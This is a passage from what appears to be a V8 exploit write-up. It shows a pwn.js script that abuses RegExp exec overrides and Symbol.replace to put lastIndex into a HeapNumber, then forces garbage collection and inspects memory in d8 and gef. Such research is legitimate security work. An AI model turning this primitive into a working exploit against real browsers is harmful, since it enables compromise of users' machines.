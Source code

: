 Now, if we set `re.lastIndex` to be `1073741824` such that it is stored as `HeapNumber` object,
we can try to simulate some garbage collection to observe how `re` and `re.lastIndex` changes.

```js
// pwn.js
var re = new RegExp("leet", "g");
var exec_bak = RegExp.prototype.exec;  // backup original exec()
RegExp.prototype.exec = function () { return null; };
var n = 1073741824;
re.exec = function () {
    re.lastIndex = n;
    delete re.exec;  // to pass `HasInitialRegExpMap` check and falls back to RegExp.prototype.exec to avoid infinite loop
    return [""];  // to get into `SetAdvancedStringIndex`
}
re[Symbol.replace]("", "l33t");
console.assert(re.lastIndex === n + 1);  // 1073741825 === 1073741824+1
RegExp.prototype.exec = exec_bak;  // restore original exec()

eval("%DebugPrint(re)");
eval("%DebugPrint(re.lastIndex)");
eval("%SystemBreak()");

gc({type:'minor'});  // minor gc / scavenge (enabled by --expose-gc)  [1]

eval("%DebugPrint(re)");
eval("%DebugPrint(re.lastIndex)");
eval("%SystemBreak()");

gc({type:'minor'});  // minor gc / scavenge (enabled by --expose-gc)  [2]
eval("%DebugPrint(re)");
eval("%DebugPrint(re.lastIndex)");
eval("%SystemBreak()");
```

To execute the script, we need to enable some command line flags.

```sh
./d8 --allow-natives-syntax --expose-gc --trace-gc pwn.js
```

Initially, `re` lives in `NewSpace`. After `re[Symbol.replace]`, the `HeapNumber`
is allocated at `NewSpace` as well.

```console
gef> run
0x100e00048375 <JSRegExp <String[4]: #leet>>
0x100e00049045 <HeapNumber 1073741825.0>

gef> vmmap
[ Legend:  Code | Heap | Stack | Writable | ReadOnly | None | RWX ]
Start              End                Size               Offset             Perm Path
0x0000100600000000 0x0000100e00000000 0x0000000800000000 0x0000000000000000 ---
0x0000100e00000000 0x0000100e00010000 0x0000000000010000 0x0000000000000000 r--   <-  $r14
0x0000100e00010000 0x0000100e00020000 0x0000000000010000 0x0000000000000000 ---
0x0000100e00020000 0x0000100e00040000 0x0000000000020000 0x0000000000000000 r--
0x0000100e00040000 0x0000100e00145000 0x0000000000105000 0x0000000000000000 rw-  # `re` and `HeapNumber` live here
0x0000100e00145000 0x0000100e00180000 0x000000000003b000 0x0000000000000000 ---
0x0000100e00180000 0x0000100e001c0000 0x0000000000040000 0x0000000000000000 rw-   <-  $r8  
0x0000100e001c0000 0x0000100e00300000 0x0000000000140000 0x0000000000000000 ---
0x0000100e00300000 0x0000100e00314000 0x0000000000014000 0x0000000000000000 r--
0x0000100e00314000 0x0000100e00340000 0x000000000002c000 0x0000000000000000 ---
0x0000100e00340000 0x0000111600000000 0x00000107ffcc0000 0x0000000000000000 ---
0x0000354600000000 0x0000354600040000 0x0000000000040000 0x0000000000000000 rw-
0x0000354600040000 0x0000354610000000 0x000000000ffc0000 0x0000000000000000 ---
```

[^wb]: <https://v8.dev/blog/concurrent-marking>
[^smi-range]: <https://medium.com/fhinkel/v8-internals-how-small-is-a-small-integer-e0badc18b6da>